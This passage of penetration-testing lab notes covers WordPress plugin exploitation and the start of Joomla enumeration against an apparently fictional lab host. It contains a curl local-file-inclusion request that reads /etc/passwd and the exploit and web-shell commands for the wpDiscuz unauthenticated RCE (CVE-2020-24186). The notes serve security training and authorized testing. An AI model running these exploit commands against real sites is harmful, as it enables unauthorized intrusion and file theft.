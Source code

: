 Exploit:

```bash
curl "http://blog.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"
```

### 🪓 wpDiscuz 7.0.4 (Unauthenticated RCE)

* Vulnerability: **File upload bypass** via image upload feature
* CVE: **CVE-2020-24186**

Exploit script:

```bash
python3 wp_discuz.py -u http://blog.inlanefreight.local -p /?p=1
```

Upload Result:

```bash
http://blog.inlanefreight.local/wp-content/uploads/2021/08/<shell>.php?cmd=id
```

## 🧹 Post-Exploitation & Clean-up

🧾 Add the following to your report:

* **Exploited systems** (IP/hostname + vector)
* **Compromised users** (username, creds, access level)
* **Artifacts** (web shells, payloads, logs)
* **Modifications** (user creation, privilege changes)

📌 Clean up:

* Remove uploaded shells (e.g., `.php` files in uploads or plugin dirs)
* Remove added users or changes made during testing

---

# Joomla - Discovery & Enumeration

## Overview

Joomla is a free and open-source CMS, released in August 2005. It is widely used for:

* Forums, galleries, eCommerce, user communities
* Written in **PHP** with **MySQL** backend
* Enhanced by 7,000+ extensions and 1,000+ templates

## API Enumeration

Query Joomla’s CMS version stats:

```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool
```
